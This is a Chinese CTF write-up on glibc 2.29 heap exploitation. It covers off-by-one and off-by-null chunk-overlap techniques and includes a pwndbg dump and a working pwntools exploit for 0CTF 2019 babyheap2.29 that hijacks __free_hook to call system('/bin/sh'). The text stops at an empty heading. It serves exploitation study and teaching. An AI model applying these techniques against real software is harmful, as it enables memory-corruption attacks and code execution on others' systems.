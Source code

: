```yaml
---
clayout: post
title:  "glibc2.29-off by one"
date:   2020-2-19
desc: ""
keywords: ""
categories: [Binary]
tags: [pwn]
icon: icon-html
---
```


#glibc2.29-off by one

## glibc2.29 unlink

```c
/* consolidate backward */
if (!prev_inuse(p)) {
  prevsize = prev_size (p);
  size += prevsize;
  p = chunk_at_offset(p, -((long) prevsize));
  if (__glibc_unlikely (chunksize(p) != prevsize))
    malloc_printerr ("corrupted size vs. prev_size while consolidating");
  unlink_chunk (av, p);
}
```
相比2.27，新增

```c
  if (__glibc_unlikely (chunksize(p) != prevsize))
    malloc_printerr ("corrupted size vs. prev_size while consolidating");
```

在2.27中，off by null有一种overlapping方法

1. malloc A B C，freeA，A进unsorted bin
2. 在B中伪造C的prev_size，off by null覆盖C的prev_inuse
3. free C，A、B、C unlink
4. malloc，把A、B、C取回来，之前的B并没有free，就得到了两个B

在第三步，根据C的prev_size找到A，然后直接unlink

在2.29中，新增了对size的检查，第三步，根据C的prev_size找到A，然后检查A的size和prev_size是否相等，不相等直接gg，如果👴想像2.27一样overlapping，👴还需要去伪造A的size

## 解决方案

### off by one

众所周知off by one比off by null白给，如果是off by one，👴就能在A前面的chunk中off by one改A的size

1. malloc X A B C，freeA，A进unsorted bin
2. 在X中off by one改Asize
3. 在B中伪造C的prev_size，off by one把C prev_inuse改成0
4. free C，A、B、C unlink
5. malloc，把A、B、C取回来，得到两个B

### off by null

伪造一个unsorted bin，再伪造prev_size，unlink时根据prev_size找到伪造的chunk，过check

伪造unsorted bin时fd和bk指向自己，fd->bk = bk->fd = p，这种方法需要堆地址白给

1. malloc A B C
2. 在A中伪造fake chunk，size和将要伪造的prev_size相同，fd和bk都指向自己
3. 在B中伪造C的prev_size，off by one把C prev_inuse改成0
4. free C，fake chunk、B、C unlink
5. malloc，把fake chunk、B、C 取回来，得到两个B

#### 0CTF2019 Final babyheap2.29

edit存在off by null

add和edit分开，可以add free add show泄露heap和libc

伪造

```c
pwndbg> x/128gx 0x555555559f50
0x555555559f50:	0x0000000000000000	0x0000000000000101//10
0x555555559f60:	0x0000000000000000	0x00000000000001f1//fake
0x555555559f70:	0x0000555555559f60	0x0000555555559f60//fake_fd fake_bk
0x555555559f80:	0x0000000000000000	0x0000000000000000
0x555555559f90:	0x0000000000000000	0x0000000000000000
0x555555559fa0:	0x0000000000000000	0x0000000000000000
0x555555559fb0:	0x0000000000000000	0x0000000000000000
0x555555559fc0:	0x0000000000000000	0x0000000000000000
0x555555559fd0:	0x0000000000000000	0x0000000000000000
0x555555559fe0:	0x0000000000000000	0x0000000000000000
0x555555559ff0:	0x0000000000000000	0x0000000000000000
0x55555555a000:	0x0000000000000000	0x0000000000000000
0x55555555a010:	0x0000000000000000	0x0000000000000000
0x55555555a020:	0x0000000000000000	0x0000000000000000
0x55555555a030:	0x0000000000000000	0x0000000000000000
0x55555555a040:	0x0000000000000000	0x0000000000000000
0x55555555a050:	0x0000000000000000	0x0000000000000101//11
0x55555555a060:	0x6161616161616161	0x6161616161616161
0x55555555a070:	0x6161616161616161	0x6161616161616161
0x55555555a080:	0x6161616161616161	0x6161616161616161
0x55555555a090:	0x6161616161616161	0x6161616161616161
0x55555555a0a0:	0x6161616161616161	0x6161616161616161
0x55555555a0b0:	0x6161616161616161	0x6161616161616161
0x55555555a0c0:	0x6161616161616161	0x6161616161616161
0x55555555a0d0:	0x6161616161616161	0x6161616161616161
0x55555555a0e0:	0x6161616161616161	0x6161616161616161
0x55555555a0f0:	0x6161616161616161	0x6161616161616161
0x55555555a100:	0x6161616161616161	0x6161616161616161
0x55555555a110:	0x6161616161616161	0x6161616161616161
0x55555555a120:	0x6161616161616161	0x6161616161616161
0x55555555a130:	0x6161616161616161	0x6161616161616161
0x55555555a140:	0x6161616161616161	0x6161616161616161
0x55555555a150:	0x00000000000001f0	0x0000000000000100//12
0x55555555a160:	0x0000000000000000	0x0000000000000000
0x55555555a170:	0x0000000000000000	0x0000000000000000
0x55555555a180:	0x0000000000000000	0x0000000000000000
0x55555555a190:	0x0000000000000000	0x0000000000000000
//0x55555555a150 - 0x1f0 = 0x555555559f60
```

overlapping，uaf，改fd打free_hook

```python
from pwn import *

r = process('./babyheap2.29')
elf = ELF('./babyheap2.29')
libc = ELF('libc-2.29.so')

def add(size):
    r.sendlineafter('Command: ','1')
    r.sendlineafter('Size: ',str(size))

def edit(index,content):
    r.sendlineafter('Command: ','2')
    r.sendlineafter('Index: ',str(index))
    r.sendlineafter('Size: ',str(len(content)))
    r.sendafter('Content: ',content)

def free(index):
    r.sendlineafter('Command: ','3')
    r.sendlineafter('Index: ',str(index))

def show(index):
    r.sendlineafter('Command: ','4')
    r.sendlineafter('Index: ',str(index))


add(0x500)
add(0x40)
free(0)
add(0x500)
show(0)
r.recvuntil(']: ')
leak = u64(r.recvuntil('\n',drop=True).ljust(8, '\x00'))
libc_base = leak - 0x1e4ca0
log.success(hex(libc_base))

add(0x40)
add(0x40)
free(1)
free(2)
add(0x40)#1
show(1)
r.recvuntil(']: ')
heap_base = u64(r.recvuntil('\n',drop=True).ljust(8, '\x00'))-0x770
log.success(hex(heap_base))


for i in range(13):
  add(0xf8)

free(2)
for i in range(4,10):
  free(i)


edit(11,'a'*0xf0 + p64(0x1f0))

fake = p64(0x0)+p64(0x1f1)+p64(heap_base+0xf60)+p64(heap_base+0xf60)
edit(10,fake)
r.interactive()

free(12)
add(0xe8)
for i in range(7):
    add(0xf8)
    log.info(r.recvline())
free(1)
add(0xf8)#1


free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']

log.success(hex(free_hook))
free(4)
free(5)
free(6)

free(11)
edit(1,p64(free_hook))
add(0xf8)
add(0xf8)#5
log.info(r.recvline())
edit(5,p64(system))
edit(7,'/bin/sh\x00')
free(7)
r.interactive()

```



### 无堆地址off by null

large bin残留指针+heap fengshui

1. 在large bin上取出来一个A，此时有A B C，准备在A中构造fake chunk，fake chunk地址为A+0x10，在B中off by null，fake chunk、B、C unlink
2. 在A构造fake chunk，A的bk为size，部分覆盖A的fd_nextsize，使其指向一个bk可控的chunk X
3. 部分覆盖chunk X的bk，使其指向fake chunk
4. A的bk_nextsize没有修改，指向A，需要使A的fd指向fake chunk，利用fast bin的链表特性使A的fd指向A+0x10
5. 此时fake->fd->bk = fake->bk->fd = fake，free C，unlink

### Balsn CTF 2019 PlainNote